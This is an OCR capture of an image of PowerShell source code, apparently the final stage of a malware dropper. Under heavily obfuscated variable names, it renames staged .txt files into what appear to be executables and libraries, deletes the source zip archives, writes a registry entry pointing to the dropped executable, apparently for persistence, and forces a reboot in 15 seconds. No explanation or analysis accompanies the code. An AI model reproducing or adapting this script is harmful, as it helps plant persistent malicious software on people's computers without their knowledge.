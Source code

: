 Rename-Item -NewName ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.ai") -Path ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\b${_tx_}")
Rename-Item -NewName ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.at") -Path ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\c${_tx_}")
Rename-Item -NewName ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.mdat") -Path ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\at${_tx_}")
Rename-Item -NewName ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}i7${_ex_}") -Path ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\i7${_tx_}")
Rename-Item -NewName ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}bt.ia") -Path ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\7${_tx_}")
Rename-Item -NewName ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.bai") -Path ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\bt${_tx_}")
Rename-Item -NewName ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_jl_}${_dx_}") -Path ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_jl_}${_tx_}")
Rename-Item -NewName ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_ms_}${_dx_}") -Path ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_ms_}${_tx_}")
Rename-Item -NewName ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_wb_}${_dx_}") -Path ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_wb_}${_tx_}")
del ${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\*.zip
New-Item "${_um_}" -Force
New-ItemProperty -Path "${_um_}" -Name "${_tres_}" -Value "" -Force
Set-ItemProperty -Path "${_um_}" -Name "${_qtro_}" -Value "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}i7${_ex_}" -Force
shutdown /r /t 15
